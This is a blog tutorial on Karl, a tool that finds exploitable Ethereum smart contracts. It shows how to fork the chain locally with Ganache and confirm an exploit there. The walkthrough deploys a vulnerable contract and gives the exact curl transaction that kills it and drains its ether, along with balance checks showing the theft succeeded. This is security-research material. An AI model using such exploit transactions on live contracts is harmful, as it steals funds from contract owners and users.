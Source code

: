 ```yaml
---
title: How to Exploit Ethereum in a Virtual Environment
summary: This is going to be a series about some of the techniques I implemented when designing Karl, a free tool that finds exploitable code in live smart contracts. When I monitor the Ethereum blockchain for vulnerable contracts, I need a way to determine if the vulnerabilities I find are the real thing, or merely a scattering of false positives and honeypots. I’ve been able to mitigate this possibility by testing for vulnerabilities in a virtual copy of the blockchain. Virtual environment A blockchain
authors:
  - Daniel Luca (@cleanunicorn)
date: 2019-02-01
some_url: 
---
```


# How to Exploit Ethereum in a Virtual Environment

> This is going to be a series about some of the techniques I implemented when designing Karl, a free tool that finds exploitable code in live smart contracts.

When I monitor the Ethereum blockchain for vulnerable contracts, I need a way to determine if the vulnerabilities I find are the real thing, or merely a scattering of false positives and honeypots. I’ve been able to mitigate this possibility by testing for vulnerabilities in a virtual copy of the blockchain.

![](https://api.beta.kauri.io:443/ipfs/QmWabvaWJfFg893rYCF1UDSkfFA5Ua8gbZK2E6CU88HJwd)


### Virtual environment
A blockchain clone is useful because we could break the contract arbitrarily sending transactions to it. Remember 
[“I accidentally killed it”](https://github.com/paritytech/parity-ethereum/issues/6995)
 ?
Another great reason to use a virtual environment is that once you send transactions to the blockchain, any other person watching it will know how to exploit it, and they may not be as diligent as you about 
[responsibly disclosing the vulnerability](https://en.wikipedia.org/wiki/Responsible_disclosure)
 to the creators of the application.
Even if you wanted to exploit the contract, you would still need to make sure the exploit works by testing it before carrying out the attack.

### How to setup the virtual environment
You may know about ganache, the whipped filling of chocolate and cream, used in desserts such as cakes and truffles. Mmmmhhm yeah! But there’s another ganache that works really well with truffles.
Being part of the 
[Truffle Framework](https://truffleframework.com/)
 , a smart contract development environment, 
[Ganache](https://truffleframework.com/ganache)
 is your on-demand personal Ethereum blockchain, perfect for local development… and hacking!
Compared to 
[Geth](https://github.com/ethereum/go-ethereum)
 or 
[Parity](https://github.com/paritytech/parity-ethereum)
 , Ganache is easier to setup and it’s not as resource intensive.
You can install and run Ganache in just 2 commands (if you have 
[Node.js](https://nodejs.org/)
 installed)

```
$ npm install -g ganache-cli
$ ganache-cli
```


And you have your own personal blockchain.

### Forking the mainnnet
A little-known feature of Ganache is 
**forking**
 another blockchain. You can think about this as 
**cloning**
  
**an existing blockchain**
 , but don’t worry, you won’t need to download the entire blockchain! Ganache will start instantly and will only query the real blockchain when it needs to, for example to read the contract’s code and state.

```
$ ganache-cli -f https://mainnet.infura.io
```


And you can fork the chain at a specific block if that’s what you need, for example forking at block 100.

```
$ ganache-cli -f https://mainnet.infura.io@100
```


This will provide a 
**blockchain clone**
 that is safe to play with. It will create a local instance and you can send transactions and deploy new contracts, run your exploit and check its validity. All of this without touching the 
_real blockchain_
 , without anyone else knowing what you’re doing and without self-destructing libraries by mistake.

## Exploiting in a virtual environment walk-through
> This is where we start to go into details. You need a few things installed.

In the following example you will:



 * Run Karl and monitor for vulnerable contracts

 * Fork the chain after we find a vulnerable contract

 * Test the exploit and see if we stole some ether

### Karl
If you don’t know about Karl, go to the GitHub page and star the project. It helps you find vulnerable contracts on Ethereum.
 
[https://github.com/cleanunicorn/karl](https://github.com/cleanunicorn/karl)
 
> If you find any bugs or have any problems running Karl, please report an issue.

Karl is available as a 
[PyPI package](https://pypi.org/project/karl/)
 , so you can just install it by running:

```
$ pip install --user karl
```


Typically you would point Karl at the main Ethereum network and monitor the contracts that get deployed there. For demonstration purposes, we’re going to monitor a local test chain instead. We’ll use Ganache for this test chain too.
We start a private Ganache instance.

```
$ ganache-cli -d
```


Start Karl and monitor for new contracts.

```
$ karl --rpc localhost:8545
```


In the Ganache console you will see Karl polling for new blocks, waiting for a new contract to be deployed.

```
Listening on 127.0.0.1:8545
eth_blockNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
eth_getBlockByNumber
...
```


We’re going to deploy a vulnerable contract ourselves.
This curl request deploys a vulnerable contract along with 1 ether.

```
curl -X POST -d '{"id": 1, "jsonrpc": "2.0", "method": "eth_sendTransaction", "params": [{"from": "0xaca94ef8bd5ffee41947b4585a84bda5a3d3da6e", "gas": "300000", "value": "0xde0b6b3a7640000",  "data": "0x608060405260c0806100126000396000f3fe6080604052348015600f57600080fd5b50600436106044577c01000000000000000000000000000000000000000000000000000000006000350463cbf0b0c081146049575b600080fd5b607960048036036020811015605d57600080fd5b503573ffffffffffffffffffffffffffffffffffffffff16607b565b005b8073ffffffffffffffffffffffffffffffffffffffff16fffea165627a7a72305820ddb174c0ae06fce4c792c57814a3c70d932e0ae31a6a3560c4ca0bb7be11bc370029"}]}' localhost:8545
```


Karl should find a vulnerability right away.

```
POSSIBLE VULNERABILITY!
Initial balance = 100000000000000000000, final balance = 101999999999999985722
```



```
Type = VulnerabilityType.KILL_AND_WITHDRAW
Description = Looks line anyone can kill this contract and steal its balance.
Transactions = [{'from': '0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'to': '0x07a457d878BF363E0Bb5aa0B096092f941e19962', 'data': '0xcbf0b0c0bebebebebebebebebebebebe1dF62f291b2E969fB0849d99D9Ce41e2F137006e', 'value': 0}]
```


Now we can fork the chain and check the vulnerability ourselves.

### Forking the chain
The original chain is located at 
`http://localhost:8545`
 , because we're running this on the same machine we can start Ganache with fork functionality and start it on a different port.

```
$ ganache-cli -f http://localhost:8545 -d -p 9545
```


Each flag explained:



 *  `-f http://localhost:8545` tells Ganache what chain to fork

 *  `-d` runs Ganache in deterministic mode, the same wallets are generated every time; this is important because you can copy paste the curl commands and you don’t need to update the address that deploys the contract

 *  `-p 9545` sets a different port to run on (the default 8545 is already used by our test chain)
Once the fork is up and running, we can send the transaction that Karl reported and see if we successfully stole the contract’s ether.
First check the initial balance of the address that will exploit the vulnerable contract 
`0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e`
 .

```
$ curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545
```



```
{"id":1,"result":"0x56bc75e2d63100000"}
```


Our current balance is 
`0x56bc75e2d63100000`
 which is exactly 100 ether in hex format.

### Exploiting the contract
We send the transaction Karl reported

```
$ curl -X POST -d '{"id": 1, "method": "eth_sendTransaction", "params":[{"from": "0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e", "to": "0x07a457d878BF363E0Bb5aa0B096092f941e19962", "data": "0xcbf0b0c0bebebebebebebebebebebebe1dF62f291b2E969fB0849d99D9Ce41e2F137006e", "value": 0}]}' localhost:9545
```



```
{"id":1,"result":"0xbac0d287bcc30e262e90161ab01a6d5b978ef981a103414125d3a4877b8e55e1"}
```


We see a successful response with the transaction hash in the result.

### Checking the final balance
The last thing to do is get the final balance of the account.

```
$ curl -X POST -d '{"id": 1, "method": "eth_getBalance", "params":["0x1dF62f291b2E969fB0849d99D9Ce41e2F137006e"]}' localhost:9545
```



```
{"id":1,"result":"0x579a71129ec175000"}
```





 *  `0x56bc75e2d63100000` initial balance

 *  `0x579a71129ec175000` final balance
Doing the math we see that the difference is almost 1 ether, the initial ether we sent in the contract when we deployed it, minus the transaction fee when exploiting it.

![](https://api.beta.kauri.io:443/ipfs/QmanyTPWGb3izbf1PfhkauC3XadshJU61dQABQ4Zm9psF5)

The cool thing is that Karl does this automatically for you. It creates the local fork, tries the exploit and outputs an alert when there is an exploitable vulnerability.

![](https://api.beta.kauri.io:443/ipfs/QmYg2wkj98MEp5UzTB6W51D9881TL4v5gwLTeBSrpc6hs4)

All this goodness is already implemented and packaged for you.
 
[https://github.com/cleanunicorn/karl](https://github.com/cleanunicorn/karl)
 
